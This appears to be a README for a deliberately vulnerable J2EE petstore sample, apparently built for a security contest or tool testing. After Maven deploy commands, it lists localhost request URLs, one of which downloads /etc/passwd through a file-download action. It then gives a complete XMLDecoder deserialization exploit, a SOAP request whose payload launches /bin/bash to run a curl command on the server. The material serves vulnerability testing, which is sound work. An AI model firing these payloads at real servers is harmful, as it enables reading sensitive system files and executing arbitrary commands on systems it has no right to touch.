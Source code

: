 

### play with j2ee sample application: petstore

deploy:
```shell
mvn package -DskipTests
mvn jetty:run-war -Dwar.location=web/target/contest1.war
```



http://localhost:8081/contest_web_war/store/file.htm?action=fileAction


http://localhost:8081/contest_web_war/store/order_list.htm?action=fileAction&path=/etc/passwd&eventSubmitDoDownload=true&file=/etc/passwd

http://localhost:8081/contest_web_war/store/view_cart.htm?action=cartAction&itemId=EST-16&eventSubmitDoRemoveItem=true

http://localhost:8081/contest_web_war/store/item_list.htm?action=cartAction&itemId=EST-16&eventSubmitDoRemoveItem=true


payload for petstore-2:

**xml-decoder vulnerability:**

exploit:

```
POST /contest_web_war/services/StoreManagerWebServiceXML?wsdl HTTP/1.1
Host: 127.0.0.1:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
SOAPAction: getCartItems
Content-Type: text/xml
Content-Length: 709

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<getCartItems>
<getCartItemsRequest>
<![CDATA[<java version="1.4.0" class="java.beans.XMLDecoder">
    <new class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>curl 127.0.0.1:9998</string></void></array>
<method name="start" />
    </new>
</java>]]>
</getCartItemsRequest>
</getCartItems>
</soapenv:Body>
</soapenv:Envelope>
```
